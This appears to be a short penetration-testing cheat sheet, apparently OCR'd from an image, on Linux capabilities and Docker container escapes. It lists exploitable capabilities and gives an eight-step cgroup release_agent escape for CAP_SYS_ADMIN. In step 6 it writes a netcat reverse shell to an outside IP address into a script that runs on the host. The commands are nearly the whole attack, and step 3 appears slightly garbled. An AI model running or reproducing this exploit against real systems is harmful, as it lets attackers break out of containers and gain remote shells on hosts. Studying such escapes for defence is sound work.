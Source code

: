 ## Command to list

### capsh --print

### Interesting privileges: cap_net_admin, cap_sys_time, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid, cap_setuid

## Example: If we have the sys_admin privilege, we can use the following PoC https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.

#### 1.  mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

#### 2.  echo 1 > /tmp/cgrp/x/notify_on_release

#### 3.  host_path='sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab'

#### 4.  echo "$host_path/exploit" > /tmp/cgrp/release_agent

#### 5.  echo '#!/bin/sh' > /exploit

#### 6.  echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.2.17 4444 >/tmp/f" >> /exploit

#### 7.  chmod a+x /exploit

#### 8.  sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
